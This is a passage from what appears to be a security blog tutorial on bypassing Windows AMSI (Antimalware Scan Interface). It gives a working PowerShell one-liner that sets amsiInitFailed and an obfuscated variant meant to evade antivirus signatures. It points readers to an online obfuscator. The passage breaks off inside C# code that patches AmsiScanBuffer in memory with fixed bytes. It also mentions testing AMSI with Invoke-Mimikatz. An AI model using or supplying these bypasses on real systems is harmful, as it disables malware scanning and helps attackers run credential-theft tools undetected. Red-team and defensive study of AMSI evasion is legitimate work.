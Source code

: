 * Providers
    * windows defender
    * kaspersky
    * Eset nod32

## Testing AMSI

There are various methods to check that the AMSI is working correctly, the following two methods are reviewed here.

> Testing AMSI with "AMSI Test Sample: 7e72c3ce-861b-4339-8740-0ac1484c1386" And "Invoke-Mimikatz"

![Testing AMSI](/assets/post/AMSI-bypass/testing-amsi.png)

## AMSI bypass

There are various methods to bypass AMSI, in the next section some of these methods are explained with examples.

Before looking into the various cases, you should know that published techniques for bypassing AMSI may be detected by antivirus and may not work properly :), But with a series of general changes, this problem can also be solved.

For example, the following technique was used in the past to bypass AMSI, but now antiviruses recognize it as malicious, but this case can be solved with a simple change.

```PowerShell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

![obfuscation](/assets/post/AMSI-bypass/obfuscation.png)

```PowerShell
[Ref].Assembly.GetType('System.Management.Automation.'+$('Am','siUtils'-join "")).GetField(('am','siInitFailed')-join "",'NonPublic,Static').SetValue($null,$true)
```

You can use [amsi.fail](https://amsi.fail/) to obfuscate your code

### Amsi ScanBuffer Patch

```PowerShell
$Winpatch = @"
using System;
using System.Runtime.InteropServices;

public class patch
{
    // https://twitter.com/_xpn_/status/1170852932650262530
    static byte[] x64 = new byte[] { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3 };
    static byte[] x86 = new byte[] { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC2, 0x18, 0x00 };

    public static void it()
    {
        if (is64Bit())
            PatchAmsi(x64);
        else
            PatchAmsi(x86);
    }

    private static void PatchAmsi(byte[] patch)
    {
        try
        {
            var lib = Win32.LoadLibrary("a" + "ms" + "i.dll");
            var addr = Win32.GetProcAddress(lib, "AmsiScanBuffer");
```